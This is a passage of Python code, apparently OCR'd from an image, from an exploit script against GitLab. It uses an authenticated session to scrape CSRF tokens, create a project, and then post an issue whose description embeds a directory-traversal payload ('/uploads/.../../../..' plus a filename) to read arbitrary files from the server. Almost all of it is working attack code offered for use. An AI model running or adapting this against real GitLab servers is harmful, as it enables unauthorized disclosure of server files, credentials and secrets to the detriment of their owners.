```
  soup = BeautifulSoup(project_resp, 'html.parser')
  inputs = soup.find_all('input')
  for entry in inputs:
    if 'name' in entry.attrs:
      if entry.attrs['name'] == 'project[namespace_id]':
        project_id = entry.attrs['value']
 
  meta = soup.find_all('meta')
  for entry in meta:
    if 'name' in entry.attrs:
      if entry.attrs['name'] == 'csrf-token':
        csrf_token = entry.attrs['content']
 
  create_data = {
        'utf8': '✓',
        'authenticity_token': csrf_token,
        'project[ci_cd_only]': 'false',
        'project[name]': project,
        'project[namespace_id]': project_id,
        'project[path]': project,
        'project[description]': '',
        'project[visibility_level]' : '0'
  }
  try:
    create_req = session.post(create_url, data=create_data, allow_redirects=False)
  except Exception as exc:
    print('\n[-] Exception : ' + str(exc))
    sys.exit()
  if create_req.status_code == 302 and 'redirected' in create_req.text:
    print('[+] {} Created Successfully!'.format(project))
  else:
    pass
 
def create_issue(project_name):
  global prev_issue_url
  print('[!] Creating an Issue...')
  issue_url = '{}/{}/{}/issues/new'.format(base_url, username, project_name)
  try:
    issue_req = session.get(issue_url, verify=False)
  except Exception as exc:
    print('\n[-] Exception : ' + str(exc))
    sys.exit()
  issue_resp = issue_req.text
  soup = BeautifulSoup(issue_resp, 'html.parser')
  meta = soup.find_all('meta')
  for entry in meta:
    if 'name' in entry.attrs:
      if entry.attrs['name'] == 'csrf-token':
        csrf_token = entry.attrs['content']
 
  issue_create_url = issue_url.replace('/new', '')
  issue_data = {
        'utf8': '✓',
        'authenticity_token' : csrf_token,
        'issue[title]': 'read_{}'.format(filename),
        'issue[description]' : '![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../..{})'.format(filename),
        'issue[confidential]' : '0',
        'issue[assignee_ids][]' : '0',
        'issue[label_ids][]' : '',
        'issue[due_date]' : '',
        'issue[lock_version]' : '0'
    }
```
